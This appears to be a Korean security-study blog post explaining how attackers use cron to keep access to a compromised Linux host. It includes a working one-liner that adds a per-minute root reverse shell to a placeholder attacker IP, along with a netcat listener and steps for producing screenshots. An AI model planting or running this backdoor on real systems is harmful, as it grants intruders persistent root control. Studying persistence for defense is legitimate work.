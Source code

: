```yaml
---
layout: post
title: "cron을 이용한 지속성 확보 공부"
date: 2025-09-19 17:00:00 +0900
categories: [시스템 해킹]
---
```


### 1. 개요

지속성`Persistence`은 공격자가 시스템 재부팅 · 세션 종료 · 초기 침투에 사용된 취약점이 패치된 후에도 시스템에 대한 접근 권한을 계속 유지하는 기술이다. 권한을 획득한 것만큼이나 그 권한을 잃지 않는 것이 중요하며 리눅스 환경에서는 주기적으로 명령을 실행하는 `cron` 스케줄러가 지속성 확보를 위한 주요 수단으로 사용된다.

---

### 2. cron 기본

`cron`은 특정 시간에 지정된 작업을 자동으로 실행하는 리눅스의 데몬이다. 사용자는 `crontab` 파일을 수정하여 작업을 예약할 수 있다.

*   **주요 경로:**
    *   `/etc/crontab`: 시스템 전체에 적용되는 cron 작업 파일. 사용자 계정을 지정하여 명령을 실행할 수 있다.
    *   `/var/spool/cron/crontabs/`: 사용자별 crontab 파일이 저장되는 디렉터리. `root` 사용자의 crontab은 여기에 위치한다.
*   **형식:**
    ```
    # ┌───────────── 분 (0 - 59)
    # │ ┌───────────── 시 (0 - 23)
    # │ │ ┌───────────── 일 (1 - 31)
    # │ │ │ ┌───────────── 월 (1 - 12)
    # │ │ │ │ ┌───────────── 요일 (0 - 6)
    # │ │ │ │ │
    # * * * * * <사용자> <실행할 명령어>
    ```

---

### 3. 사용 예시: crontab을 이용한 리버스 쉘 연결

이전 게시글에서 `root` 권한을 획득한 공격자가 매 분마다 공격자 PC로 리버스 쉘을 연결하는 cron 작업을 등록하여 시스템에 대한 영구적인 백도어를 생성하는 상황이다.

#### **1. 공격자 리스너 실행**
공격자 PC에서 `netcat`을 이용해 4444번 포트에서 연결을 대기한다.
```bash
nc -lvnp 4444
```

#### **2. 대상 서버에 cron 작업 등록**
획득한 `root` 쉘에서 `root` 사용자의 crontab에 1분마다 리버스 쉘을 실행하는 작업을 추가한다. `crontab -e`를 사용하는 대신 `echo`와 파이프를 이용하여 비대화형(non-interactive) 방식으로 작업을 등록할 수 있다.
```bash
# 기존 crontab 내용을 유지하면서 새 작업을 추가
(crontab -l 2>/dev/null; echo "* * * * * /bin/bash -i >& /dev/tcp/[Attacker IP]/4444 0>&1") | crontab -
```

#### **3. 연결 수신 확인**
cron 작업이 등록되고 1분 이내에 공격자 PC의 `netcat` 리스너는 대상 서버로부터 들어오는 `root` 권한의 쉘 연결을 수신하게 된다.
[여기에 Crontab 설정 및 리버스 쉘 수신 비교 이미지 삽입]

이제 대상 서버가 재부팅되거나 다른 관리자가 악성 프로세스를 종료시키더라도 `cron` 데몬은 매 분마다 공격자에게 다시 쉘을 제공하므로 공격자는 시스템에 대한 통제권을 잃지 않게 된다.

<hr class="short-rule">





### 시각 자료(이미지) 제작을 위한 스크립트

#### **Crontab 설정 및 리버스 쉘 수신 비교 이미지 제작**

이 이미지는 원인(cron 작업 등록)과 결과(쉘 연결 수신)를 명확하게 보여줍니다.

**1. "Before" 이미지 (Crontab 설정)**

1.  (준비) `GTFOBins` 등을 통해 `root` 권한을 획득한 **대상 서버(Target)**의 터미널 창을 준비합니다.
2.  `crontab -l` 명령을 실행하여 현재 등록된 cron 작업이 없는 것을 보여줍니다. (오류가 나거나 아무것도 출력되지 않음)
3.  위 `3. 사용 예시` 섹션의 2번 명령어 `(crontab -l ...)`를 실행하여 리버스 쉘 작업을 등록합니다.
4.  `crontab -l` 명령을 다시 실행하여, `* * * * * /bin/bash ...` 라인이 성공적으로 추가되었음을 보여줍니다.
5.  이 과정이 모두 담긴 **대상 서버**의 터미널 화면을 스크린샷으로 찍어 **`Crontab_설정.png`** 로 저장합니다.

**2. "After" 이미지 (Reverse Shell 수신)**

1.  (준비) **공격자 PC(Attacker)**의 터미널에서 `nc -lvnp 4444` 명령어를 실행하여 리스닝 상태로 둡니다.
2.  **대상 서버**에서 cron 작업이 실행될 때까지 최대 1분간 기다립니다.
3.  시간이 되면 **공격자 PC**의 터미널에 `connect to ...` 메시지와 함께 `root@ubuntu...` 와 같은 `root` 프롬프트가 나타납니다.
4.  `whoami` 명령어를 실행하여 `root`가 출력되는 것을 추가로 보여줍니다.
5.  이 연결 수신 및 명령어 실행 결과가 보이는 **공격자 PC**의 터미널 화면을 스크린샷으로 찍어 **`Reverse_Shell_수신.png`** 로 저장합니다.

**3. 최종 이미지 편집**

1.  이미지 편집 프로그램에서 `Crontab_설정.png`(왼쪽)와 `Reverse_Shell_수신.png`(오른쪽)를 나란히 배치합니다.
2.  각 이미지 위에 "**대상 서버 (Crontab 설정)**"과 "**공격자 PC (Reverse Shell 수신)**" 텍스트를 추가합니다.
3.  왼쪽 이미지에서는 `crontab -l` 결과로 출력된 리버스 쉘 명령어 라인에 하이라이트를 적용합니다.
4.  오른쪽 이미지에서는 새로 획득한 `root` 프롬프트와 `whoami` 결과에 하이라이트를 적용하여, cron 작업을 통해 쉘을 획득했음을 명확히 보여줍니다.
5.  수정된 이미지를 저장하여 게시글에 삽입합니다.
